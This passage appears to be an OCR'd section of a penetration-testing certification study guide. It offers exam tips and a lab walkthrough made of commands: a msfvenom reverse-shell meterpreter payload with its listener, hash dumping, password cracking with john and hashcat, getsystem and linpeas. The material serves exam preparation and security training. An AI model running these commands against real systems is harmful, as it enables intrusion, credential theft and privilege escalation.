 ### Pro Tips:

- **Always check**: `sudo -l` on Linux targets
- **Critical files**: `/etc/passwd`, `/etc/shadow`, SAM database
- **Exam trick**: Use `--show` in John to view cracked passwords
- **Must-know exploits**: Dirty Cow, CVE-2021-4034 (PwnKit)

### Real-World Exam Lab

**Task: Compromise Windows Target

```
1. msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > payload.exe
```

```
2. msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 10.10.10.10; run"
```

```
3. meterpreter > hashdump
```

```
4. john --format=NT hashes.txt --wordlist=rockyou.txt
````

```
5. meterpreter > getsystem
```

# Run these until automatic:

```
john --format=NT hashes.txt --wordlist=rockyou.txt
```

```
hashcat -m 1000 ntlm_hashes.txt rockyou.txt --force
```

```
meterpreter > getsystem
```

```
./linpeas.sh -t
```
  
**[Back to top](#top)**
___

## Module 07: Malware Threats

### 1. Trojan Analysis (Exam Weight: 25%)
